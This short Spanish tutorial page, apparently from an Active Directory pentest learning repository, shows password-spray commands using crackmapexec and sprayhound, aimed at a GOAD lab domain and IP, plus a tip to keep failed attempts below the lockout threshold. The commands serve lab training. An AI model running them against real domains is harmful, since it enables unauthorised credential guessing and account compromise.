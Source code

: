# Técnica de password spray

```
poetry run crackmapexec smb <direccion ip> -u <txt de lista de usuarios> -p <txt de lista de contraseñas>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/user_but_no_credentials/password_spray/vid.gif?raw=true "Password spray con crackmapexec")

```
sprayhound -U <txt de lista de ususarios> <nombre dominio completo> -dc <direccion ip> --lower

# 2 intentos fallidos para no bloquear las cuentas
sprayhound -U GOAD/users.txt -d north.sevenkingdoms.local -dc 192.168.56.11 -lu hodor -lp hodor --lower -t 2
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/user_but_no_credentials/password_spray/vid2.gif?raw=true "Password spray con sprayhound")
